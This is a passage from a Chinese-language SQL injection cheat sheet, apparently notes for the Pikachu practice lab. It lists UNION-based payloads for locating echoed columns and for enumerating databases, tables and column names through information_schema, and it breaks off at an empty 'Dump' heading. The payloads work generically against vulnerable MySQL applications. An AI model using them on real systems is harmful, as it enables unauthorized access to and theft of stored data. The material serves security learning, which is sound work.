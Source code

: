 > 在某些情况下 ORDER BY 无效但是 SELECT 依然有效

### 5.1. Location

判断回显的位置

```
' UNION SELECT 1, 2 -- 
```

> 查询字段数量必须与 `Column count` 相同

### 5.2. Database

在有回显的位置显示所有数据库名

```
' UNION SELECT (SELECT GROUP_CONCAT(DISTINCT table_schema) FROM information_schema.TABLES), 2 -- 
```

在有回显的位置显示当前数据库名

```
' UNION SELECT DATABASE(), 2 -- 
```

### 5.3. Tables

显示指定数据库的所有数据表名

```
' UNION SELECT (SELECT GROUP_CONCAT(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu'), 2 -- 
```

显示当前数据库的所有数据表名

```
' UNION SELECT (SELECT GROUP_CONCAT(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE()), 2 -- 
```

### 5.4. Columns

显示指定数据库中指定数据表的所有字段名

```
' UNION SELECT (SELECT GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users'), 2 -- 
```

显示当前数据库中指定数据表的所有字段名

```
' UNION SELECT (SELECT GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users'), 2 -- 
```

### 5.5. Dump
